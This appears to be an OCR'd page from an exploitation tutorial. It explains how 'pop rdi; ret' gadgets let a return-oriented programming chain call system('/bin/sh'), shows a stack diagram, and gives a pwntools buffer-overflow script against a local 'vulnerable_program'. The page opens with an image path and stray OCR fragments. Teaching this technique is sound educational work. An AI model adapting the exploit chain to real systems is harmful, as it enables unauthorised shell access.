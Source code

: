 ```assembly
    mov    eax, 0
    ret
```

## 🚀 Why POP is Critical for ROP

In ROP, we chain together small pieces of code called "gadgets" that end with `ret`. Here's why POP is so important:

### ROP Gadget Example

```assembly
; This is a useful ROP gadget
pop rdi        ; Pop value from stack into RDI (1st function argument)
ret            ; Return to next address on stack
```

### How We Use This Gadget

**Our ROP Chain on Stack:**
```
┌─────────────────┐
│  gadget_addr    │ ← Return address (points to "pop rdi; ret")
├─────────────────┤
│  "/bin/sh"      │ ← Value we want in RDI
├─────────────────┤
│  system_addr    │ ← Address of system() function
└─────────────────┘
```

**Execution Flow:**
1. **ret** instruction jumps to `gadget_addr`
2. **pop rdi** takes "/bin/sh" from stack and puts it in RDI
3. **ret** jumps to `system_addr`
4. **system()** gets called with "/bin/sh" as first argument
5. **Result:** `system("/bin/sh")` executes!

## 🎯 Practical ROP Example

Let's build a simple ROP chain:

```python
from pwn import *

# Addresses we found through analysis
pop_rdi_ret = 0x401234      # Address of "pop rdi; ret" gadget
system_addr = 0x7f1234567890 # Address of system() function
bin_sh_addr = 0x7f1234567abc # Address of "/bin/sh" string

# Our buffer overflow payload
payload = b'A' * 72          # Overflow buffer to reach return address

# ROP chain
payload += p64(pop_rdi_ret)  # 1. Jump to "pop rdi; ret"
payload += p64(bin_sh_addr)  # 2. This gets popped into RDI
payload += p64(system_addr)  # 3. Jump to system() with "/bin/sh" in RDI

# Send payload
p = process('./vulnerable_program')
p.sendline(payload)
p.interactive()  # Get shell!
```
